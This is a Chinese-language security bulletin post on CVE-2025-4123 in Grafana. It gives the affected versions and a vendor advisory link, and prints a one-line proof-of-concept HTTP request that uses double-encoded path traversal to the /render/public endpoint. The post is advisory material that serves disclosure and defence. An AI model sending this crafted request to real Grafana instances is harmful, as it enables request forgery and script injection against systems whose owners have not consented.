 #  CVE-2025-4123｜Grafana SSRF漏洞（POC）  
alicy  信安百科   2025-06-28 09:00  
  
**0x00 前言**  
  
  
Grafana是一个跨平台的开源的度量分析和可视化工具，可以通过将采集的数据查询然后可视化的展示，并及时通知。用Go语言开发的开源数据可视化工具，可以做数据监控和数据统计，带有告警功能。目前使用grafana的公司有很多，如paypal、ebay、intel等。  
  
  
  
**0x01 漏洞描述**  
  
  
在受漏洞影响的版本中，由于static.go在处理静态资源重定向逻辑时，未对原始URL路径进行处理，导致可以通过重定向到托管将执行任意 JavaScript 的前端插件的网站，执行恶意的js文件，导致跨站脚本漏洞形成。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-4123  
  
  
  
**0x03 影响版本**  
  
```
8.0.0 ≤ grafana <10.4.18
11.2.0 ≤ grafana <11.2.9
11.3.0 ≤ grafana <11.3.6
11.4.0 ≤ grafana <11.4.4
11.5.0 ≤ grafana <11.5.4
11.6.0 ≤ grafana <11.6.1
12.0.0 ≤ grafana <12.0.1
```  
  
  
  
**0x04 漏洞详情**  
  
  
SSRF POC：  
```
GET /render/public/..%252f%255Cxxx.xxxx.xxx%252f%253F%252f..%252f.. HTTP/1.1
Host: 127.0.0.1:8080
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Whm7t4Je6urricaVle8Cjm02TSnwMm4B2ojZAdYOyMv05a7qWotS3WdGEoiaYVxXtXlNkUdHm7T8Fz2JZ4QmdzTA/640?wx_fmt=png&from=appmsg "")  
  
  
  
**0x05 参考链接**  
  
  
https://grafana.com/security/security-advisories/cve-2025-4123/  
  
  
  
  
推荐阅读：  
  
  
[CVE-2024-9264｜Grafana SQL表达式允许远程代码执行（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485671&idx=2&sn=3c50f92d11faad65195774409be07b3b&scene=21#wechat_redirect)  
  
  
  
[【漏洞预警】Grafana未授权任意文件读取漏洞](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247483722&idx=1&sn=9f25c3ed9c398ed507f57229cbf4d34a&scene=21#wechat_redirect)  
  
  
  
[CVE-2025-48827｜vBulletin远程代码执行漏洞（POC）](https://mp.weixin.qq.com/s?__biz=Mzg2ODcxMjYzMA==&mid=2247485975&idx=2&sn=dbe57e94f20bc9b3f98b334b6267cffc&scene=21#wechat_redirect)  
  
  
  
  
  
Ps：国内外安全热点分享，欢迎大家分享、转载，请保证文章的完整性。文章中出现敏感信息和侵权内容，请联系作者删除信息。信息安全任重道远，感谢您的支持  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6urTIficI8UhQibwpYWx4ic7Bk40AJlXrgx3icofWCbd5cbJFheld132R8exvlHnicn0AUjHLmVok4wV9qA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
！！！  
  
  
**本公众号的文章及工具仅提供学习参考，由于传播、利用此文档提供的信息而造成任何直接或间接的后果及损害，均由使用者本人负责,本公众号及文章作者不为此承担任何责任。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Whm7t4Je6uqQ24S6worK6npevNP8p1uPc9jQeMAib2iaibBnibOzFaIbD0KlvsEtUAmL3xdbJJnWk74Y1KfBcIazzw/640?wx_fmt=png "")  
  
  
